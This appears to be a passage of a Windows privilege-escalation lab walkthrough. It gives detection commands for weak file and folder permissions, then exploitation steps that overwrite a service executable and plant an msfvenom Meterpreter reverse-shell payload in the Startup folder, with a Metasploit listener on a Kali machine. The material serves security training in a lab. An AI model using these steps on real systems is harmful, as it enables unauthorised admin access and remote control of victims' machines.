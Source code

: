 ***

### Exec Path

#### Detection

Windows VM

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
2. Notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the filepermservice.exe file.

#### Exploitation

Windows VM

1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
2. In command prompt type: sc start filepermsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

***

### Startup Applications

#### Detection

Windows VM

1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

#### Exploitation

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\[Kali VM IP Address] -f exe -o x.exe
7. Copy the generated file, x.exe, to the Windows VM. Windows VM
8. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
9. Logoff.
10. Login with the administrator account credentials. Kali VM
11. Wait for a session to be created, it may take a few seconds.
12. In Meterpreter(meterpreter > prompt) type: getuid
13. From the output, notice the user is “User-PC\Admin”

***
